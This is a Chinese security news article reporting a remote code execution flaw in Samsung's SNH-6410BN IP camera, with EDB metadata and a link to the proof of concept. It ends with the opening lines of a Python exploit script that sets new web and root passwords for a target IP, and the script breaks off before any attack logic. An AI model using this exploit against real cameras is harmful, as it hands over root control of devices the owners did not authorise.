 > 原文链接: https://www.anquanke.com//post/id/84396 


# 三星智能监控摄像头被爆远程代码执行漏洞（含POC）


                                阅读量   
                                **167086**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t01febe10192e3f58a7.png)](https://p2.ssl.qhimg.com/t01febe10192e3f58a7.png)

**漏洞概况**

EDB-ID:40235

漏洞发现者：PentestPartners

CVE：暂无

发布日期：2016年08月14日

漏洞类型：远程漏洞

受影响平台：系统硬件

受影响App：暂无

漏洞利用POC：[点击下载](https://www.exploit-db.com/download/40235)



**前言**

目前，绝大多数安全研究专家在对物联网设备进行漏洞研究时，都将研究重点集中在了如何利用这些漏洞来展开网络攻击。很少有人知道如何去修复这些安全问题，而且也几乎没人关心如何才能防止这些设备继续遭受攻击。为此，我们专门对一款IP监控摄像头进行了分析，并发现了很多小问题。而将这些安全问题联系在一起，我们就能够获取到目标设备的root访问权限了。虽说它们都是一些小问题，但是修复起来却非常的困难。所以我们认为应该专门写一篇关于如何发现并修复物联网设备漏洞的文章。

我们的研究对象是三星的一款室内IP监控摄像头－[SNH-6410BN](https://www.amazon.co.uk/dp/B00MQS0FZY/ref=pd_lpo_sbs_dp_ss_1?pf_rd_p=569136327&amp;pf_rd_s=lpo-top-stripe&amp;pf_rd_t=201&amp;pf_rd_i=B00J38NVHE&amp;pf_rd_m=A3P5ROKL5A1OLE&amp;pf_rd_r=2AXRQSAPF7Z6CTHDX0FE)。如果单纯从质量和功能性的角度来考察，那么这款摄像头没有任何的问题，因为它的拍摄清晰度非常高，而且三星还为其配备了非常优秀的应用软件。但是，它是一款IP摄像头，所以网络安全的问题就成为了它的一块短版。

通常情况下，用户会使用移动端应用程序或者网站提供的“云服务”来远程访问摄像头。但是这款摄像头使用的仍是SSH，而且还有专门与之对应的Web服务器。这就是我们测试的切入点。因为Web服务器只支持HTTP协议，而不支持使用HTTPS协议。

**<br>**

**漏洞利用代码**

```
# E-DB Note: source ~ https://www.pentestpartners.com/blog/samsungs-smart-camera-a-tale-of-iot-network-security/
 
import urllib, urllib2, crypt, time
 
# New password for web interface
web_password       = 'admin'
# New password for root
root_password  = 'root'
# IP of the camera
ip           = '192.168.12.61'
 
# These are all for the Smartthings bundled camera
realm = 'iPolis'
web_username = 'admin'
```